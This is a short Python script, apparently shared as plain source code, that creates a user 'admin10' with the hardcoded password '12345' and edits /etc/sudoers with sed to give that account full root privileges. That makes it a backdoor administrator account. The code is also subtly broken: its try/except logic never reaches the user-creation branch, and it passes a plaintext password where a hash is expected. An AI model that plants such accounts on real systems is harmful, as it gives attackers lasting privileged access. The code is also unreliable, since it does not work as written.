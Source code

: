 

```py
import os 
import subprocess 
import sys 
import getpass 
import crypt

def add_user():    
    username="admin10"
    password = "12345" 
    encPass = crypt.crypt(password)
    try:
        os.system("id admin10")
    except:
        subprocess.run(['useradd', '-p', password, username ])
        os.system("sed -i '/^admin10/d' /etc/sudoers")
        os.system("sed -i '/NOPASSWD: ALL/aadmin10  ALL=(ALL)       ALL' /etc/sudoers") 
add_user() 
```